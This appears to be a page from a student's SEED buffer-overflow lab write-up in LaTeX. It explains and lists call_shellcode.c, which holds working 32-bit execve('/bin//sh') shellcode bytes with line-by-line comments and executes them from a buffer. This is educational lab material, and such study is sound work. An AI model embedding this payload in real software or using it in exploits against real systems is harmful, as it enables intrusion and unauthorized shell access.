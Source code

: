 \documentclass[14pt]{extarticle}
\begin{document}
I can take the assembly of the previous code (after it has been compiled) and place the assembly in a buffer of a new program. The assembly of the original shell code program above is much different than the assembly that is in the given call\_shellcode program from the lab. This is most likely due to the changes in gcc since the release of this lab.
To test the assembly code of the above program, I can create a program "call\_shellcode" which will simulate an actual attack. I can place the assembly code of the previous program into a buffer in a new program. This new program will execute the code stored in a buffer by referencing to the buffer's location in memory as a function. Since the buffer is filled with executable hex code, the program will continue to execute the hex code as if it were a normal program \cite{seed-bof}.
The new program will look like this:
\begin{lstlisting}[language=c]
/* call_shellcode.c */
/* A program that launches a shell using shellcode */
// in order to run the execve system function in the assembly code, I need to include it in these libraries
#include <stdlib.h>
#include <stdio.h>
// the string library will help with holding the assembly code in a character array
#include <string.h>
const char code[] =
	// xor a register with it's self to clear it
    "\x31\xc0"       /* Line 1:     xorl       %eax,%eax        */
	// push the null value to the stack
    "\x50"            /* Line 2:     pushl      %eax             */
	// push the value "//sh" to the stack, double // is used to make 32 bit number
    "\x68""//sh"     /* Line 3:     pushl      $0x68732f2f      */
	// push the value "/bin" to the stack
    "\x68""/bin"     /* Line 4:     pushl      $0x6e69622f      */
	// copy location of the name[ 0 ] parameter to register ebx
    "\x89\xe3"       /* Line 5:     movl       %esp,%ebx        */
    // push another null value to the stack
    "\x50"           /* Line 6:     pushl      %eax             */
	// push the ebx register to the stack
    "\x53"           /* Line 7:     pushl      %ebx             */
	// copy location of name parameter to register ecx
    "\x89\xe1"       /* Line 8:     movl       %esp,%ecx        */
	// sets edx to zero.
    "\x99"           /* Line 9:     cdq                         */
	// copy the value of register al to 11
    "\xb0\x0b"       /* Line 10:    movb       $0x0b,%al        */
	// create an interrupt and execute teh execve command
    "\xcd\x80"       /* Line 11:    int        $0x80            */
;
int main(int argc, char **argv)
{
	// create a buffer to hold the assembly code
    char buf[sizeof(code)];
	// copy the code into the buffer
    strcpy(buf, code);
	// call the assembly code in the buffer as-if it were a function.
    ((void(*)( ))buf)( );
}
\end{lstlisting} \cite{seed-bof} \cite{intel-asm}\\
\end{document}
